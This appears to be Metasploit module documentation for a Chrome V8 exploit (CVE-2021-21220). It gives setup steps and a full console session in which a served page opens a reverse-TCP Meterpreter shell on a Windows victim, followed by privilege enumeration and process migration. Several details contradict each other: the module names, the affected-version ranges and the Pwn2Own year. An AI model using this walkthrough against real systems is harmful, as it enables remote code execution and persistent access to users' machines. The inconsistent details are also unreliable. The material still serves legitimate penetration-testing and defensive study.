 ## Vulnerable Application

This module exploits CVE-2021-21220 an out of bounds access issue in Google Chrome versions before
89.0.4389.128/90.0.4430.72 (64 bit) that was reported as part of Pwn2Own 2020 by Bruno Keith and
Niklas Baumstark of Dataflow Security.

The exploit makes takes advantage of a lack of proper input validation in the V8 engine on x86_x64 builds
of Chrome when handling XOR operations within JIT compiled code. Successful exploitation leads to RCE execution
within the context of the V8 renderer.

Note that as the V8 renderer is sandboxed within typical Chrome setups, the browser must be run without a sandbox by using
the --no-sandbox option for the payload to work correctly.

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/beta/90.0.4430.70](https://chromium.cypress.io/win64/beta/90.0.4430.70)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_simplifiedlowering_overflow`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 90.0.4430.0 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf6 > use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set TARGET 1
TARGET => 1
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > show options

Module options (exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                       hine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.233.206   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)


msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) >
[*] Started reverse TCP handler on 172.17.233.206:4444
[*] Using URL: http://0.0.0.0:8080/F6htJoKY5li
[*] Local IP: http://172.17.233.206:8080/F6htJoKY5li
[*] Server started.
[*] 172.17.236.178   chrome_cve_2021_21220_v8_insufficient_validation - Sending /F6htJoKY5li to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.0 Safari/537.36
[*] Sending stage (200262 bytes) to 172.17.236.178
[*] Meterpreter session 1 opened (172.17.233.206:4444 -> 172.17.236.178:65165) at 2021-04-27 13:19:35 -0500

msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/migrate
[-] No results from search
[-] Failed to load module: post/windows/migrate
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
                                         .
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > run

[*] Running module against DESKTOP-KUO5CML
[*] Current server process: chrome.exe (10116)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 8732
[+] Successfully migrated into process 8732
[*] Post module execution completed
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 8732
meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

